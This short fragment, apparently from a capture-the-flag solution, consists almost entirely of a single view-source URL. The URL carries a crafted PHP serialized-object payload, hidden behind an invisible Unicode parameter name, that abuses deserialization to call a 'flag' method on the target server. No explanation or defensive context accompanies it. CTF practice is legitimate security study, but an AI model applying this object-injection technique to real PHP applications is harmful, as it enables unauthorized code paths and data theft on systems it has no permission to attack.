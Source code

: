 ﻿view-source:http://ip/main.php?%e2%80%ac=a:3:{i:0;O:1:%22A%22:3:{s:6:%22object%22;O:1:%22B%22:0:{}s:6:%22method%22;s:4:%22flag%22;s:8:%22variable%22;s:4:%22flag%22;}i:0;O:1:%22A%22:3:{s:6:%22object%22;O:1:%22B%22:0:{}s:6:%22method%22;s:4:%22flag%22;s:8:%22variable%22;s:4:%22this%22;}i:0;s:4:%22AAAA%22;}